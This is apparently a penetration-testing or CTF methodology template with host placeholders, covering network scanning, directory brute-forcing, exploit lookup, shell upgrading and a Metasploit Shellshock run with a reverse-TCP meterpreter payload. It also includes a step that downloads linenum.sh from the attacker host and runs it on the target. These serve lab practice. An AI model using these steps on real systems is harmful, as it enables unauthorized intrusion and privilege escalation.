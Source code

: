 # tempalte, flow

```sh
remote-host (hostname during setup): <rhostslot>
local-host (ip): <lhostslot>
```

## Summary

+ example

## prev enum

```sh
sudo nmap -sS -sC -sV -oA ./nmap/full_sS -O -p- <rhostslot>
  # rename-tab
sudo vim /etc/hosts
<rhostslot>    <name>
```

## web enum

### dns recon

```sh
nslookup
  # AD, find DC, etc.

# try zone transfer
host -l <rhostslot> <dnsServer>
dnsrecon -d <rhostslot> -t axfr
  # dnsrecon -d megacorpone.com -t axfr
```

### gobuster

```sh
dict="/usr/share/wordlists/dirb/common.txt"
ls -lah $dict                                    # 36KB
gobuster dir -u http://<rhostslot>/ -w $dict -t 20 -e -x php,asp,json,aspx
  # 5min
  # find /cgi-bin/ (status 403)

gobuster dir -u http://<rhostslot>/cgi-bin/ -w $dict -t 20 -e -x cgi,sh,pl,py,rb,php
  # 5min
  # find /user.sh (status 200)
```

## exploit (user shell)

### searchsploit

```sh
search keywords
searchsploit keywords
```

```sh
cdee
cp /usr/share/exploitdb/exploits/example ~/assets/example/temp.php
cda
```

### example-vector

### interactive shell

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
  # C-z to background the shell
stty raw -echo; fg
```

## exploit (root)

### post enum

```sh
ps aux
sudo -l
```

### privilege escalation

```sh
```

## msf

```msfconsole
msf> search <keywords>
  # 2  exploit/multi/http/apache_mod_cgi_bash_env_exec      2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
msf> use 2
msf> show advanced
msf> show options
msf> set RHOSTS <rhostslot>
msf> ...

msf> show payloads
  # 14 payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
msf> set payload 14

msf> run -j
  # meterpreter user shell
```

## util

+ rhost

```sh
wget <lhostslot>:8000/linenum.sh -O /tmp/linenum.sh
bash /tmp/lineum.sh > /tmp/linenumOut.md

python -m SimpleHTTPServer 8000 /tmp
```

+ lhost

```sh
wget <rhostslot>:8000/linenumOut.md
```
